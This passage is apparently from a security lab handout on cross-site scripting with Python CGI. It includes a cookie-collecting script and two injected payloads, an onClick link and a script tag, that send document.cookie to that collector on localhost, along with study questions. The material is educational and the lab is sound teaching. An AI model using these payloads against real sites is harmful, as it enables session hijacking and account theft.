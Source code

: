 Test it at [http://localhost:3080/cgi-bin/xssForm2.cgi](http://localhost:3080/cgi-bin/xssForm2.cgi). It should behave as expected. Remember your file permissions.

Lastly, we need to create the redirection target for our xss attack. This page will intercept and display the cookie.

Create another file and name it `xssAttack.py`

```python
#!/usr/bin/env python

import cgi, cgitb
import time, Cookie

print 'Content-Type: text/html\n'

# Create instance of FieldStorage
form = cgi.FieldStorage()
cookie = form.getvalue('cookie')

if "cookie" not in form:
    print "No <b>cookie</b> intercepted\n"
else:
    print "Intercepted Cookie: " + cookie + "\n"

print '<br><hr>'
print 'Server time is', time.asctime(time.localtime())
print '</body></html>'
```

## Stealing the cookie ##

Now pass the following string in the user field:

	<a href="xssCookies.py" onClick="javascript:document.location.replace('http://localhost:3080/cgi-bin/xssAttack.py?cookie=' + escape(document.cookie)); return false;">victim</a>

As you can see, the location where the username should be displayed is now replaced with a "victim" link. Follow it. Look at the resulting URL. Inspect the URL that you were trying to retrieve.

**Question 6:** What URL is displayed when the mouse is hovered over the link?

**Question 7:** What is the full URL that the link actually went to? Why is this an attack?

This attack is very pernicious. It is capable of stealing all the cookies of a site by simply logging the access to the destination website. At this point, you could easily forge a cookie and hijack that session.

Try passing the following string into the user field:

	<script>document.location="http://localhost:3080/cgi-bin/xssAttack.py?cookie="+document.cookie</script>

**Question 8:** What happens when you click submit? Is this expected?

# Part 5: Cross-scripting attacks using Chrome #
